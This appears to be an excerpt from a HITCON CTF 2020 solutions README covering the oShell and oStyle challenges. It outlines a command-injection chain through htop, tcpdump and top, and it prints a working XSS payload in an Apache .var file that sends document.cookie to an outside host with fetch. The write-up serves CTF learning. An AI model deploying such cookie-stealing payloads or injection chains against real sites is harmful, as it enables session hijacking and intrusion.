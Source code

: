 



## **oShell**
  
Difficulty: **★★**  
Solved: **21 / 1281**  
Tag:   **BlackBox**, **Shell** ,**Command Injection**  

#### Source Code

* [Source](hitcon-ctf-2020/oShell/)  

#### Solution

1. Leveraging `strace` in `htop` to read enable secret.
2. Writing `/home/oShell/.toprc` with `tcpdump -w`
3. Abusing `top` inspect feature to run arbitrary commands


#### Write Ups

* [Writeup from team FrenchRoomba](https://github.com/FrenchRoomba/ctf-writeup-HITCON-CTF-2020/tree/master/oShell)  


## **oStyle**
  
Difficulty: **★★☆**  
Solved: **10 / 1281**  
Tag:   **XSS**

#### Source Code

* [Source](hitcon-ctf-2020/oStyle/)  

#### Solution

* The default Apache installation enabled `mod_negotiation`, which allows `.var` mapping and you can specify arbitrary content-type there.

**test.var**
```
Content-language: en
Content-type: text/html
Body:----foo----

<script>
fetch('http://orange.tw/?' + escape(document.cookie))
</script>

----foo----

```

